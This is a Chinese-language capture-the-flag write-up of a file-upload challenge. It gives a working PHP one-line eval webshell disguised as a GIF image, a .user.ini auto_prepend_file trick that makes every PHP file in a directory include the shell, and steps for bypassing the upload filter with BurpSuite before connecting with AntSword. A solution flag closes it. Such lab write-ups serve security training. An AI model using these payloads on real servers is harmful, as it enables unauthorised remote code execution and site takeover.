







## easyupload

文件上传，尝试一句话木马

如果上传的文件包含 php会被检测

```
your filetype looks wicked

your file looks wicked
```
### webshell 上传
* 修改文件后缀为jpg 
* 添加图片文件头  
* 使用短标签
```
GIF89a                                 // 添加图片文件头
<?=eval($_POST[('x')]);?>              // 使用短标签
```
显示上传成功

* 使用火狐浏览器查看 文件上传位置（蚁剑连接时会用到 注意 不是根目录下的index.php）


### .user.ini 文件
* 在服务器中，只要是运用了fastcgi的服务器就能够利用该方式getshell，不论是apache或者ngnix或是其他服务器。这个文件是php.ini的补充文件，当网页访问的时候就会自动查看当前目录下是否有.user.ini，然后将其补充进php.ini，并作为cgi的启动项。其中很多功能设置了只能php.ini配置，但是还是有一些危险的功能可以被我们控制
* 借助.user.ini让所有php文件都“自动”包含某个文件，这个文件可以是一个正常php文件，也可以是一个包含一句话木马的webshell。

#### .user.ini 文件内容
```
GIF89a
auto_prepend_file=shell.jpg
```
* auto_prepend_file的用法：
auto_prepend_file可以让所有的php文件自动的包含某个文件。什么意思？

例如在.user.ini文件中写入
```
auto_prepend_file=a.jpg
```
然后在a.jpg中写入一个一句话代码
```
<?php eval($_P0ST['a']); ?>
```
那么和.user.ini和a.jpg同一目录下的所有php文件都会包含a.jpg文件

#### .user.ini 文件内容 上传
直接上传会显示失败
BurpSuite抓包，修改类型后再放包

上传成功




### 蚁剑连接




## flag
cyberpeace{20b4a2a6e35d4198edf4f8a3f52496f5}
